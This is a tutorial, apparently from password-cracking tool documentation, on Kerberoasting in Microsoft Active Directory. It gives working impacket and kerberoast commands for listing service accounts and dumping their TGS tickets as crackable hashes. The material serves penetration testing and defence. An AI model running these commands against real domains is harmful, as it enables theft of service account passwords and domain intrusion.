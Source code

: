 "THE BEER-WARE LICENSE" (Revision 42)
=====================================
<jean-christophe.delaunay (at) synacktiv.com> wrote this file.  As long as you
retain this notice you can do whatever you want with this stuff. If we meet
some day, and you think this stuff is worth it, you can buy me a beer in
return.   Fist0urs


Cracking Kerberos Ticket Granting Service (TGS) tickets within _Microsoft Active Directory_
===========================================================================================

(Skip to part "How to retrieve TGS tickets" if you just want to know how to get TGS to crack).

What is it
----------

Within a _Micorosft Active Directory_ environment, registered services (as MsSQL or so) rely on a domain account in order to be functional.
This domain account should be a service account but administrators can provided whichever account they want provided that it has sufficient rights.
Such specific accounts are easily identifiable by their LDAP attribute _servicePrincipalName_ (SPN) and can be listed by *any authenticated user* in the domain (whatever are his rights in the domain).
Furthermore any authenticated can request a TGS ticket for these accounts. Nevertheless, if one can request such tickets, it does not mean that he would be able to impersonate these accounts.
Indeed, the important part assuring that a user submitting a ticket is its legit owner is encrypted with a key. This key is derived from a secret only known by the legit account which is its **domain account password**. This attack is known as "Kerberoast" and was discovered by Tim Medin.

So, having a valid domain user, one can request tickets for accounts having a SPN and try to retrieve the corresponding passwords.

Algorithm details
-----------------

_Active Directory_ offers 4 algorithms to generate the encryption key:

* DES (disabled by default, not really usefull)
* RC4-HMAC-MD5 (enctype 23)
* AES128-CTS-HMAC-SHA1-96 (enctype 17) - with 4096 PBKDF2 HMAC-SHA1 iterations
* AES256-CTS-HMAC-SHA1-96 (enctype 18) - same number of algo/iterations

At the moment only etype 23 is implement within john but etype 17 and 18 are yet to come.

How to retrieve TGS tickets
---------------------------

_GetUserSPNs.py_ from [impacket](https://github.com/SecureAuthCorp/impacket) by @asolino permits to obtain these tickets:

```

usage: GetUserSPNs.py [-h] [-target-domain TARGET_DOMAIN] [-request]
                      [-request-user username] [-save]
                      [-outputfile OUTPUTFILE] [-debug]
                      [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                      [-aesKey hex key] [-dc-ip ip address]
                      target

Queries target domain for SPNs that are running under a user account

positional arguments:
  target                domain/username[:password]

```

Provided my domain is CONTOSO, username is "fistouille" and password "kariontounu", requesting tickets would be as follows:

```

$ python GetUserSPNs.py -target-domain CONTOSO -request -outputfile KRB5TGS.dump CONTOSO/fistouille:kariontounu

```

**_KRB5TGS.dump_ now contains ready-to-crack hashes for both JtR and hashcat**

Another tool, [kerberoast](https://github.com/skelsec/kerberoast) from @skelsec, offers the ability to retrieve such tickets (among many other things).

You can get it from [github](https://github.com/skelsec/kerberoast) or install it with **pip3** (_Python 3.6_ is required):

```

$ git clone https://github.com/skelsec/kerberoast
$ python3 setup.py install

OR

$ pip3 install -r requirements.txt
$ pip3 install kerberoast

```

Usage:

```

usage: kerberoast.py [-h] [-v]
                     {ldap,brute,asreproast,spnroast,spnroast-sspi,auto} ...

Tool to perform kerberoast attack against service users in MS Active Directory

positional arguments:
  {ldap,brute,asreproast,spnroast,spnroast-sspi,auto}
                        commands
    ldap                Enumerate potentially vulnerable users via LDAP
    brute               Enumerate users via brute-forcing kerberos service
    asreproast          Perform asrep roasting
    spnroast            Perform spn roasting (aka kerberoasting)
    spnroast-sspi       Perform spn roasting (aka kerberoasting)
    auto                Just get the tickets already. Only works on windows
                        under any domain-user context

```

Provided the aforementioned information plus a _Domain Controller_ IP/FQDN (eg. 10.123.42.42), we can request tickets as follows:

```

# we first list all user accounts having an SPN
$ python3 kerberoast.py ldap all CONTOSO/fistouille:kariontounu@10.123.42.42 -o ldapenum

# we then ask for TGS for these accounts
$ python3 kerberoast.py spnroast CONTOSO/fistouille:kariontounu@10.123.42.42 -t ldapenum_spn_users.txt

```

**_ldapenum_spn_users.txt_ now contains ready-to-crack hashes for both JtR and hashcat**

Finally, _kerberoast_ python tool also implements Windows implicit authentication mechanism which is really useful during _Red Team_ security assessments.
